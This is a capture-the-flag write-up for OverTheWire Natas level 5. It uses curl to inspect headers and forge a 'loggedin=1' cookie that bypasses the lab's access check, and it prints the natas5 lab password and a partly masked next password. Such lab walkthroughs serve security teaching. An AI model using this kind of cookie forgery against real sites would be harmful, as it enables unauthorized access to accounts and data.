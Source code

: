 ```yaml
---
title: OverTheWire Natas Level 4 -> 5
author: Michael McDonagh
pubDatetime: 2025-03-03T20:30:00Z
slug: overthewire-natas-5
featured: false
draft: false
tags:
  - overthewire
  - natas
  - web
ogImage: ""
description: Solution for OverTheWire Natas level 5 challenge.
---
```


## Description

Username: natas5  

URL:      <http://natas5.natas.labs.overthewire.org>

---

## Solution

Solution for the Overthewire.org [Natas level 4 -> Level 5](https://overthewire.org/wargames/natas/natas5.html)

Visit the url `http://natas5.natas.labs.overthewire.org` in the browser and we get a prompt for login.

Use the username `natas5` and the password obtained from the previous challenge.

Once logged in we get an `Access disallowed` message.

![Natas 5 home page](@assets/images/overthewire/natas/natas05_home.png)

Checking the source code does not give any new information.

In the previous challenge we looked at the `HTTP headers` so let's check them again.

Using `curl --head --user <USERNAME>:<PASSWORD> --url <URL>` syntax we can view the headers.

```bash
$ curl --head --user natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq --url http://nata
s5.natas.labs.overthewire.org

HTTP/1.1 200 OK
Date: Wed, 20 Apr 2022 23:55:42 GMT
Server: Apache/2.4.10 (Debian)
Set-Cookie: loggedin=0
Content-Type: text/html; charset=UTF-8

```

We can see in the headers that there is a cookie being set.  
`Set-Cookie: loggedin=0`

Let's set `loggedin` to 1 and see what differences occur.
We can passed cookie data using the `--cookie` option in curl.

```bash
curl --user natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq --cookie "loggedin=1" --url http:/
/natas5.natas.labs.overthewire.org/
```

The response we get tells us Access granted and the password.

```html
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas5", "pass": "iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq" };</script></head>
<body>
<h1>natas5</h1>
<div id="content">
Access granted. The password for natas6 is aGoY4q**************************</div>
</body>
</html>
```

The password for the next challenge is `aGoY4q**************************`.
